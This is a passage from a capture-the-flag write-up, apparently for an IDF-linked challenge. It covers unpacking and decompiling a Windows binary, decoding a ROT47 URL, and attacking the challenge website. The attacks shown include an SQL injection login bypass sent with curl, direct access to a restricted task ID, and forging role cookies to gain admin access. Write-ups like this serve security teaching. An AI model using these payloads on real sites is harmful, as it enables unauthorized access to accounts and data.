    00000080: 24 b6 e2 55 60 d7 8c 06  60 d7 8c 06 60 d7 8c 06  |$..U`...`...`...|
    00000090: e7 5e 8d 07 62 d7 8c 06  e7 5e 8f 07 63 d7 8c 06  |.^..b....^..c...|
    000000a0: e7 5e 88 07 6b d7 8c 06  e7 5e 89 07 78 d7 8c 06  |.^..k....^..x...|
    000000b0: 14 56 8d 07 67 d7 8c 06  60 d7 8d 06 2e d7 8c 06  |.V..g...`.......|
    000000c0: ef 5e 88 07 61 d7 8c 06  ef 5e 73 06 61 d7 8c 06  |.^..a....^s.a...|
    000000d0: ef 5e 8e 07 61 d7 8c 06  52 69 63 68 60 d7 8c 06  |.^..a...Rich`...|
    000000e0: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
    000000f0: 00 00 00 00 00 00 00 00  50 45 00 00 64 86 03 00  |........PE..d...|
```

Let's take a quick look at it:

```console
┌──(py_ctf_env)─(user@kali3)-[/media/sf_CTFs/basmach]
└─$ file executable1.exe
executable1.exe: PE32+ executable for MS Windows 6.00 (console), x86-64, 3 sections

┌──(py_ctf_env)─(user@kali3)-[/media/sf_CTFs/basmach]
└─$ strings executable1.exe | head
!This program cannot be run in DOS mode.
Rich`
UPX0
UPX1
.rsrc
5.02
UPX!
k$6vi
~T00
"`TYf
```

From a quick glance, we can see that `UPX` stands out. 

> UPX is a free, secure, portable, extendable, high-performance executable packer for several executable formats.

If we're lucky, we can use UPX to unpack the executable and inspect the sources:

```console
┌──(user@kali3)-[/media/sf_CTFs/basmach]
└─$ upx -d executable1.exe
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2024
UPX 4.2.4       Markus Oberhumer, Laszlo Molnar & John Reiser    May 9th 2024

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
     69120 <-     16896   24.44%    win64/pe     executable1.exe

Unpacked 1 file.
```

We crack open IDA and find the following function:

```c
__int64 sub_140011AC0()
{
  char *v0; // rdi
  __int64 i; // rcx
  __int64 v2; // rax
  FILE *v3; // rax
  __int64 v4; // rdi
  char v6[32]; // [rsp+0h] [rbp-20h] BYREF
  char v7; // [rsp+20h] [rbp+0h] BYREF
  char v8[240]; // [rsp+30h] [rbp+10h] BYREF
  char v9[256]; // [rsp+120h] [rbp+100h] BYREF
  char v10[256]; // [rsp+220h] [rbp+200h] BYREF
  char v11[120]; // [rsp+320h] [rbp+300h] BYREF
  char *FileName; // [rsp+398h] [rbp+378h]
  char String1[48]; // [rsp+3B8h] [rbp+398h] BYREF
  char v14[48]; // [rsp+3E8h] [rbp+3C8h] BYREF
  char v15[48]; // [rsp+418h] [rbp+3F8h] BYREF
  FILE *Stream; // [rsp+448h] [rbp+428h]
  const char *v17; // [rsp+468h] [rbp+448h]
  const char *v18; // [rsp+488h] [rbp+468h]
  char v19[536]; // [rsp+4B0h] [rbp+490h] BYREF
  FILE *v20; // [rsp+6C8h] [rbp+6A8h]
  char v21[536]; // [rsp+6F0h] [rbp+6D0h] BYREF
  FILE *v22; // [rsp+908h] [rbp+8E8h]

  v0 = &v7;
  for ( i = 576LL; i; --i )
  {
    *(_DWORD *)v0 = -858993460;
    v0 += 4;
  }
  sub_1400113A7(&unk_1400240A2);
  strcpy(
    v8,
    "Tell me a secret and I'll let you in,\n"
    "Prove who you are, and your access begins.\n"
    "Without the right claim, the door stays locked tight, \n"
    "For I verify truth before granting the right.\n"
    "Who am I? ");
  strcpy(
    v9,
    "I turn names into numbers so machines know the way,\n"
    "Poison my tables and you'll go astray.\n"
    "I guide your browser's footsteps through the 'World-Wide' mess, \n"
    "A phonebook for the internet, no more, no less.\n"
    "Who am I? ");
  strcpy(
    v10,
    "Run code in my walls, yet the system won't fall,\n"
    "I'm a safe little cage that contains it all.\n"
    "Kids play with me, but this ain't no fun nor games\n"
    "For if something breaks out, all will go up in flames.\n"
    "Who am I? ");
  strcpy(v11, "From every solution, just pluck the first sound,\nAssemble them all and the secret is found.\n");
  FileName = "C:\\Message\\Secret.txt";
  Stream = fopen("C:\\Message\\Secret.txt", "r");
  if ( Stream )
  {
    fclose(Stream);
    sub_1400111AE(
      "\n"
      "To unlock my secret hidden deep, three riddles you must solve,\n"
      "Answer right and doors will part, your cleverness will evolve.\n"
      "\n");
    sub_1400111AE("%s", v8);
    while ( 1 )
    {
      sub_140011221("%19s", String1);
      if ( !stricmp(String1, "authentication") )
        break;
      sub_1400111AE("Wrong answer, try again: ");
    }
    sub_1400111AE("Correct!\n\n");
    sub_1400111AE("%s", v9);
    while ( 1 )
    {
      sub_140011221("%19s", v14);
      if ( !stricmp(v14, "dns") )
        break;
      sub_1400111AE("Wrong answer, try again: ");
    }
    sub_1400111AE("Correct!\n\n");
    sub_1400111AE("%s", v10);
    while ( 1 )
    {
      sub_140011221("%19s", v15);
      if ( !stricmp(v15, "sandbox") )
        break;
      sub_1400111AE("Wrong answer, try again: ");
    }
    sub_1400111AE("Correct!\n\n");
    sub_1400111AE("%s", v11);
    v17 = "H9:E6=:@?]3D>49]:57]:=";
    v18 = "ROT47";
    sub_1400112AD(v19, 512LL, "%s:ENC_URL", FileName);
    v3 = fopen(v19, "w");
    v20 = v3;
    if ( v3 )
    {
      sub_140011366(v20, "%s", v17);
      fclose(v20);
      sub_1400112AD(v21, 512LL, "%s:DEC_ALG", FileName);
      v22 = fopen(v21, "w");
      if ( v22 )
      {
        sub_140011366(v22, "%s", v18);
        fclose(v22);
        v2 = 0LL;
      }
      else
      {
        perror("Failed to create ADS2");
        v2 = 1LL;
      }
    }
    else
    {
      perror("Failed to create ADS1");
      v2 = 1LL;
    }
  }
  else
  {
    MessageBoxW(
      0LL,
      L"The program cannot run without C:\\Message\\Secret.txt.",
      L"Error: Required file does not exist.",
      0x10u);
    v2 = 1LL;
  }
  v4 = v2;
  sub_14001133E(v6, &unk_14001B050);
  return v4;
}
```

It looks like we have three riddles here:

First riddle:

> Tell me a secret and I'll let you in,  
> Prove who you are, and your access begins.  
> Without the right claim, the door stays locked tight,
> For I verify truth before granting the right.  
> Who am I?

Second riddle:

> I turn names into numbers so machines know the way,  
> Poison my tables and you'll go astray.  
> I guide your browser's footsteps through the 'World-Wide' mess,   
> A phonebook for the internet, no more, no less.  
> Who am I?   

Third riddle:

> Run code in my walls, yet the system won't fall,  
> I'm a safe little cage that contains it all.  
> Kids play with me, but this ain't no fun nor games  
> For if something breaks out, all will go up in flames.  
> Who am I?   

If you solved them - that's great, and if you haven't - that's Ok too, since the answers are in plaintext in the sources ("authentication", "dns", "sandbox"), and either way it doesn't really matter because what we really want is right here:

```c
v17 = "H9:E6=:@?]3D>49]:57]:=";
v18 = "ROT47";
sub_1400112AD(v19, 512LL, "%s:ENC_URL", FileName);
v3 = fopen(v19, "w");
v20 = v3;
if ( v3 )
{
    sub_140011366(v20, "%s", v17);
    fclose(v20);
    sub_1400112AD(v21, 512LL, "%s:DEC_ALG", FileName);
    v22 = fopen(v21, "w");
    // ...
}
```

One glance at that and it should be pretty clear that we should try to decode `"H9:E6=:@?]3D>49]:57]:="` with ROT47, let's try that:

```console
┌──(py_ctf_env)─(user@kali3)-[/media/sf_CTFs/basmach]
└─$ tr '!-~' 'P-~!-O' <<< "H9:E6=:@?]3D>49]:57]:="
whitelion.bsmch.idf.il
```

We visit the new website and get:

```console
┌──(py_ctf_env)─(user@kali3)-[/media/sf_CTFs/basmach]
└─$ curl 'https://whitelion.bsmch.idf.il/' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:146.0) Gecko/20100101 Firefox/146.0'
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>White Lion</title>
<link rel="icon" type="image/x-icon" href="logo.ico">
    <style>
        body {
            background: white;
            margin: 0;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            font-family: monospace;
            font-size: 18px;
            white-space: pre;
        }
    </style>
</head>
<body>
<pre>
     _____
   _|_o_o_|_
  |  _____  |   Beep Beep...
  | |     | |
  |_|_____|_|
    || ||
   (__)(__)

</pre>
</body>
</html>
```

Isn't that a robot? 

```console
┌──(py_ctf_env)─(user@kali3)-[/media/sf_CTFs/basmach]
└─$ curl 'https://whitelion.bsmch.idf.il/robots.txt' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:146.0) Gecko/20100101 Firefox/146.0'
# White Lion Attack System
# Unauthorized access is strictly forbidden.
# Flag: {narniabale}

User-agent: *
Disallow: /login.php
```

We got the first part of the flag (`narniabale`) and a hint to the existence of a login page, which we should now visit:

```console
┌──(py_ctf_env)─(user@kali3)-[/media/sf_CTFs/basmach]
└─$ curl 'https://whitelion.bsmch.idf.il/login.php' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:146.0) Gecko/20100101 Firefox/146.0'
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>White Lion - Login</title>
<link rel="stylesheet" href="styles.css">
<link rel="icon" type="image/x-icon" href="logo.ico">
</head>
<body class="login-page">

    <div class="login-box">
        <h2>White Lion Login</h2>
                <form method="POST">
            <input type="text" name="username" placeholder="Username" required autocomplete="off">
            <input type="password" name="password" placeholder="Password" required autocomplete="off">
            <button type="submit">Login</button>
        </form>
    </div>

</body>
</html>
```

It's a login page, so we should try to log in:

```console
┌──(py_ctf_env)─(user@kali3)-[/media/sf_CTFs/basmach]
└─$ curl 'https://whitelion.bsmch.idf.il/login.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36' \
  --data-raw 'username=guest&password=guest' -s | grep error
                    <div class="error">Invalid credentials. Access denied.</div>
```

We obviously have no idea what the username or password are, but the oldest trick in the book is SQL Injection, so let's try that to bypass the login screen.

```console
┌──(py_ctf_env)─(user@kali3)-[/media/sf_CTFs/basmach]
└─$ curl 'https://whitelion.bsmch.idf.il/login.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36' \
  --data-raw "username=test&password=guest' OR 1=1 --" -i -L -b cookie.txt -c cookie.txt -s | grep h1
                <h1>WHITE LION OPERATIONS DASHBOARD</h1>
```

What do you know, that worked!

We find a dashboard with several active missions.



We can click the different green dots on the map to view the mission details:



However it looks like we don't have clearance for the last mission:



How do we access it anyway?

A quick inspection of the sources reveals the following logic:

```javascript

function initializeMap() {
    map = L.map('map').setView([31.5,35.0],7);
    L.tileLayer('https://{s}.tile.openstreetmap.org/{z}/{x}/{y}.png',{
        attribution:'ֲ© White Lion Attack System',opacity:0.7
    }).addTo(map);

    const locations = {
        'tel-aviv': {coords:[32.0853,34.7818], title:'Tel Aviv', status:'active', description:'Light Rail System', missionId:2, accessible:true},
        'haifa': {coords:[32.7940,34.9896], title:'Haifa', status:'active', description:'Port Surveillance System', missionId:1, accessible:true},
		'beer sheva': {coords:[31.254831, 34.787110], title:"Be'er Sheva", status:'active', description:'Power Station', missionId:3, accessible:true},
        'jerusalem': {coords:[31.7683,35.2137], title:'Jerusalem', status:'classified', description:'CLASSIFIED - Restricted access', missionId:4, accessible:false}
    };

    Object.keys(locations).forEach(key => {
        const marker = createMarker(locations[key], key);
        markers[key] = marker;
    });
    customizeMapAppearance();
}

function createMarker(location,key){
    const iconColor = location.status==='classified'?'#dc3545':location.status==='pending'?'#ffc107':'#00ff41';
    const customIcon = L.divIcon({
        className:'custom-marker',
        html:`<div class="marker-icon" style="width:25px;height:25px;background:${iconColor};border-radius:50%;box-shadow:0 0 15px ${iconColor};animation:${location.status==='active'?'pulse 2s infinite':'none'};"></div>`,
        iconSize:[25,25], iconAnchor:[12,12]
    });

    const marker = L.marker(location.coords,{icon:customIcon}).addTo(map);

    const popupContent = `
        <div style="color:var(--text-primary);font-family:monospace;">
            <h4 style="color:var(--neon-green);margin-bottom:8px;">${location.title}</h4>
            <p style="font-size:0.9rem;margin-bottom:8px;">${location.description}</p>
            <div style="font-size:0.8rem;color:var(--text-secondary);">
                Status: <span style="color:${getStatusColor(location.status)}">${location.status.toUpperCase()}</span>
            </div>
            ${location.accessible?`<button class="btn primary" style="margin-top:10px;font-size:0.8rem;padding:6px 12px;" onclick="window.location.href='task.php?id=${location.missionId}'">ACCESS MISSION</button>`:`<button class="btn secondary disabled" style="margin-top:10px;font-size:0.8rem;padding:6px 12px;" disabled>CLASSIFIED ACCESS</button>`}
        </div>
    `;

    marker.bindPopup(popupContent);
    marker.on('click',()=>marker.openPopup());
    return marker;
}
```

At the very least, we have client side code limiting the access to the mission details.

```javascript
${location.accessible ? 
`<button class="btn primary" style="margin-top:10px;font-size:0.8rem;padding:6px 12px;" onclick="window.location.href='task.php?id=${location.missionId}'">ACCESS MISSION</button>`
 : `<button class="btn secondary disabled" style="margin-top:10px;font-size:0.8rem;padding:6px 12px;" disabled>CLASSIFIED ACCESS</button>`}
```

We should probably try to visit `task.php?id=4` manually and see if there's some server side limitation as well:

```console
┌──(py_ctf_env)─(user@kali3)-[/media/sf_CTFs/basmach]
└─$ curl 'https://whitelion.bsmch.idf.il/task.php?id=4' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36' \
  -b cookie.txt -c cookie.txt -s  | tail -n 15
        <div class="panel mission-flag fade-in-delay">
            <h3>FURTHER INSTURCTIONS</h3>
            <span class="flag-value">{idf}</span>
                        <p class="access-warning">CLASSIFIED - Administrative privileges required to unlock full mission.</p>
                    </div>

        <footer class="task-footer fade-in-delay">
            <a href="home.php" class="btn secondary">← Return Home</a>
        </footer>
    </div>
</div>

<script src="script.js"></script>
</body>
</html>
```

Well, this isn't what we were hoping for, but it's not all bad. First, we have another part of the flag here (`idf`), and second, we just need admin privileges to view the mission. Time to check the cookies:

```console
┌──(py_ctf_env)─(user@kali3)-[/media/sf_CTFs/basmach]
└─$ cat cookie.txt
# Netscape HTTP Cookie File
# https://curl.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

whitelion.bsmch.idf.il  FALSE   /       FALSE   0       PHPSESSID       d19fa45e2ac4df3b4738ab5c064ac4c7
whitelion.bsmch.idf.il  FALSE   /       FALSE   1765840428      role    user
whitelion.bsmch.idf.il  FALSE   /       FALSE   1765840428      username        operator
```

We can see that the role/username we got from the server are "user/operator". What if we change them to "admin/admin"?

```console
┌──(py_ctf_env)─(user@kali3)-[/media/sf_CTFs/basmach]
└─$ curl 'https://whitelion.bsmch.idf.il/task.php?id=4' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36' \
  -b cookie.txt -c cookie.txt -s  | tail -n 22
            <h2>MISSION BRIEFING</h2>
            <p>CLASSIFIED MISSION</p>
            <p>We have managed to gain access to the Knesset&#039;s top secret network.</p>
        </div>

        <div class="panel mission-flag fade-in-delay">
            <h3>FURTHER INSTURCTIONS</h3>
            <span class="flag-value">{il}<br>
                1. Leak classified government protocols.<br>
                2. Use CVE-2025-20282 to achieve RCE on cisco devices.<br>
                3. Change network settings to block all connectivity.</span>
                    </div>

        <footer class="task-footer fade-in-delay">
            <a href="home.php" class="btn secondary">← Return Home</a>
        </footer>
    </div>
</div>

<script src="script.js"></script>
</body>
</html>
```

It worked! We got the last part of the flag (`il`).

Putting all the parts together according to the website template we met across the challenge, we understand that we should visit `https://narniabale.bsmch.idf.il/`:


```html
<div class="terminal">
    <h1>CONGRATULATIONS</h1>

    <div class="typewriter-wrapper">
        <p class="typewriter" id="line1">You solved the riddle!</p>
    </div>

    <div class="typewriter-wrapper">
        <p class="typewriter" id="line2">Send the full details of Operation Nightfall to:</p>
    </div>

    <p class="email" id="email">basmachriddle@gmail.com</p>
</div>
```

The challenge is complete!
